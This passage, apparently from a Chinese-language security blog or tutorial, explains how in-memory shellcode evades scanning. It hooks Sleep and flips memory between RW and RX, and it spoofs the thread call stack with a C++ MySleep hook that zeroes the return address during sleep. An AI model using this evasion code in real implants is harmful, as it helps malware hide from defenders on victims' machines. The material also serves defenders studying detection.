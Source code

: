   

1.  Hook Sleep 函数
    
2.  定位内存中的 shellcode
    
3.  睡眠期间翻转为 RW
    
4.  睡眠结束翻转为 RX
    
5.  无限循环，以此规避内存扫描
    

-   线程堆栈欺骗：欺骗线程堆栈返回地址
    
    默认情况下，线程的返回地址指向我们驻留在内存中的 shellcode，通过检查可疑进程中线程的返回地址，可以轻松识别到内存中的 shellcode
    
      
    
    最简单的方法，直接用 0 覆盖返回地址，从而截断堆栈
    
    关键代码
    

```plain
void WINAPI MySleep(DWORD _dwMilliseconds)
{
    const register DWORD dwMilliseconds = _dwMilliseconds;

    // Perform this (current) thread call stack spoofing.
    PULONG_PTR overwrite = (PULONG_PTR)_AddressOfReturnAddress();
    const register ULONG_PTR origReturnAddress = *overwrite;

    log("[>] Original return address: 0x", std::hex, std::setw(8), std::setfill('0'), origReturnAddress, ". Finishing call stack...");
    *overwrite = 0;

    log("\n===> MySleep(", std::dec, dwMilliseconds, ")\n");

    // Perform sleep emulating originally hooked functionality.
    ::SleepEx(dwMilliseconds, false);

    // Restore original thread's call stack.
    log("[<] Restoring original return address...");
    *overwrite = origReturnAddress;
}
```

效果对比：

默认线程调用堆栈：

![图片](assets/1699494032-fc03d9dc7c421cdb778bc4ac29f23cb0.png)
